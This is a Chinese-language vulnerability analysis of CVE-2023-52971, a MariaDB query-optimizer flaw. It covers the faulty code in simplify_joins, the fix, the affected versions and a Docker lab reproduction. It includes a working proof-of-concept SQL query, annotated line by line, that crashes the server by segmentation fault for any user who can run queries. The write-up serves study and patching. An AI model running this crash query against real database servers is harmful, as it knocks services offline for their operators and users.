



# CVE-2023-52971 CWE-1038 MariaDB DoS

## 漏洞背景

- **MariaDB ：**一款开源关系型数据库管理系统，由 MySQL 的创始人开发，与 MySQL 高度兼容。它具有高性能、高安全性、易于使用等特点，支持多种存储引擎，可保障数据的可靠存储与高效读写。同时，MariaDB 还具备强大的查询优化能力，能增强数据库性能，广泛应用于多种行业领域，为数据存储和管理提供有力支持。
- **CWE-1038（Insecure Automated Optimizations）：**不安全的自动优化。指的是软件在自动执行性能或功能优化时，没有充分考虑安全性，导致优化过程引入逻辑错误或安全漏洞，从而使攻击者能够利用这些不正确或不安全的优化行为，触发崩溃、数据篡改或绕过安全检查等问题，典型案例包括数据库查询优化器错误处理外部引用导致崩溃。

## 漏洞原理

在常规操作中，MariaDB 的 SQL 规划器会尝试优化复杂的连接。它使用一个名为 fix_all_splittings_in_plan 的函数。由于缺少安全检查，一个精心设计的 SQL 查询可以将该函数置于不良状态并导致服务器崩溃。攻击者不需要特殊权限——只需要能够运行 SQL 查询。

MariaDB 优化器在处理包含嵌套子查询且子查询的 JOIN ON 条件中引用外层表（即外部引用）时，未正确维护表之间的依赖关系，导致优化器错误地构造了执行计划中的 JOIN 顺序，进而在生成查询执行计划的过程中触发断言失败或非法内存访问，最终引发服务端崩溃。

## 漏洞定位

在 **sql\sql_select.cc** 文件，第 **17689** 行`simplify_joins`函数是 MariaDB / MySQL 查询优化器中的一个关键函数，主要负责简化和分析 SQL 查询中 `JOIN` 结构之间的依赖关系，为后续执行计划生成（如连接顺序优化）提供正确的语义信息。

其中的第 **17845** 行，判断语句用于判断当前`LEFT JOIN`的`ON`条件中引用的表是否满足条件，如果是，则表示这个连接可以直接进行，不需要额外设置依赖关系；否则就需要设置依赖。

即如果当前 `ON` 表达式中使用的所有表，要么属于允许的特殊类型（如外部引用、随机数），要么这些表已经在之前处理过了（`prev_used_tables`），那么我们可以直接把当前 `table` 加到 `prev_table` 的依赖中。

然而这个判断条件中只考虑了 `OUTER_REF_TABLE_BIT` 和 `RAND_TABLE_BIT`，但没有处理外部引用到子查询外层表的复杂情况。当 `ON` 表达式中依赖的是“当前嵌套结构之外的表”，但这些表并没有在 `prev_used_tables` 中时，该判断为真，不添加依赖，导致连接顺序不合法。这是**漏洞点**所在。

```c
// ***** 17845 行 ********** 判断是否需要设置 prev_table 对 table 的依赖 ******* 漏洞点 ******
if (!((prev_table->on_expr->used_tables() &   // 获取 ON 子句中使用的表
       // 排除特殊依赖（不影响连接顺序）：去掉外部引用（如 outer subquery 引用）和 RAND() 引用
       ~(OUTER_REF_TABLE_BIT | RAND_TABLE_BIT)) &
      // 排除已经处理过的表
      ~prev_used_tables))
    // 若没有引用未来表，不需要添加依赖，就是可以立即处理
  prev_table->dep_tables|= used_tables; 
```

## 漏洞修复

修复重点在于改进优化器中 `simplify_joins()` 函数的逻辑，使其能正确处理嵌套 `LEFT JOIN` 中 `ON` 条件引用 **子查询外部表** 的情况。

增加判断逻辑，当 `prev_table->on_expr` 依赖的表（`used_tables()`）中包含外层引用（但不是 `OUTER_REF_TABLE_BIT`）时，仍需要人为设置依赖，以避免 JOIN 顺序断裂。找出 `table` 的同层 peer 表的位图，如果 `prev_table` 的 `ON` 表达式依赖的表不在这些 peer 之中，那么就假定 `prev_table` 依赖当前的 `table`，之后可以直接处理。

```c
if (!(prev_on_expr_deps & peers)) {
    prev_table->dep_tables |= used_tables;
}
```

## 影响范围

MariaDB Server 10.10 至 10.11.* 

MariaDB Server 11.0 至 11.4.*

## 环境搭建

Docker 环境中 MariaDB 版本为 10.11.5，管理员为 root，密码为 12345，存在一个数据库 test_db。



## 漏洞复现

1. 进入容器命令行；

   ```bash
   docker exec -it mariadb-10.11.5 bash
   ```

2. 使用 root 用户连接 MariaDB 的 test_db 数据库，密码为 12345；

   ```bash
   mariadb -u root -p test_db
   ```

3. 依次执行下面两行 SQL 命令后，可以看到 MariaDB 崩溃并退出容器；

   ```sql
   CREATE TABLE t0 (c0 INT(1) NOT NULL, c1 INT NOT NULL PRIMARY KEY);
   
   SELECT ra4.c1 ca6 FROM t0 ra3 LEFT OUTER JOIN t0 ra4 ON ra3.c0 = ra4.c1 WHERE ra3.c0 IN (SELECT CAST(ra6.c1 IS NULL AS SIGNED) ca0 FROM t0 ra5 LEFT JOIN (t0 ra6 LEFT JOIN t0 ra7 ON ra3.c0 = ra7.c1) ON ra5.c1 = ra3.c0);
   ```

   

4. 查看容器日志，可以看到 MariaDB 服务进程（`mysqld`）收到了信号 11（SIGSEGV），即段错误（Segmentation Fault），说明程序试图访问未分配或非法的内存地址，导致崩溃。

   ```bash
   docker logs mariadb-10.11.5
   ```

   

## PoC分析

PoC 用于筛选出`t0`中某些 `c0` 值，通过一系列 `LEFT JOIN` 连接判断它们是否满足特定条件（如连接失败或值为 NULL），最终输出这些满足条件的值在另一张表（也是`t0`）中是否存在匹配的主键 `c1`。该 SQL 语句在执行过程中会触发 MariaDB 优化器将子查询转换为 semi-join，此时优化器在分析 JOIN 的依赖关系时，未正确处理 ON 子句中对外层表（ra3）的引用，错误地认为子查询内部结构是封闭的，导致生成错误的依赖图；在尝试构造 JOIN 顺序时，由于依赖顺序无法满足约束，最终崩溃。

```sql
-- 创建表 t0，包含两列 c0 和 c1
CREATE TABLE t0 (c0 INT(1) NOT NULL, c1 INT NOT NULL PRIMARY KEY);

-- 返回 ra4.c1 并命名为 ca6
SELECT ra4.c1 ca6
-- t0 别名为 ra3
FROM t0 ra3
-- 左外连接，t0 别名为 ra4，并将 ra3.c0 与 ra4.c1 匹配
-- 对于左侧表 ra3 中那些没有在右侧表 ra4 中找到匹配记录的行，结果集中的右侧表 ra4 对应的字段部分会显示为NULL，而左侧表 ra3 的字段值仍然会保留在结果中。
LEFT OUTER JOIN t0 ra4 ON ra3.c0 = ra4.c1
WHERE ra3.c0 IN (
    -- 检查 ra6.c1 是否为 NULL（是 NULL 则 CAST 结果为真），用于判断左连接是否成功
  SELECT CAST(ra6.c1 IS NULL AS SIGNED) ca0
  FROM t0 ra5
  LEFT JOIN (
      -- t0 别名为 ra6 和 ra7，这两张表进行 LEFT JOIN，连接条件为 ra3.c0 = ra7.c1
      -- ra6 表中的记录与 ra7 表中满足连接条件的记录组合在一起，ra7 表中没有匹配的记录时，对应字段值为NULL
      -- ra3 是外层 SELECT 的别名，在此被子查询引用，形成了所谓的 outer reference（外部引用）
    t0 ra6 LEFT JOIN t0 ra7 ON ra3.c0 = ra7.c1
  ) 
    -- 同样也使用了外层 ra3.c0，这表示整个子查询与 ra3 表之间是耦合的，打破了通常的子查询独立性原则
    ON ra5.c1 = ra3.c0
);
```

## 参考链接

[NVD - CVE-2023-52971](https://nvd.nist.gov/vuln/detail/CVE-2023-52971)

[[MDEV-32084\] Assertion in best_extension_by_limited_search(), or crash elsewhere in release build - Jira](https://jira.mariadb.org/browse/MDEV-32084)

[MDEV-32084: Assertion in best_extension_by_limited_search() ... · MariaDB/server@3b4de4c](https://github.com/MariaDB/server/commit/3b4de4c281cb3e33e6d3ee9537e542bf0a84b83e#diff-f322db3ae6e0b0481f72dc54b56d2a92405729d49e7f307d2089c09713e35f54)
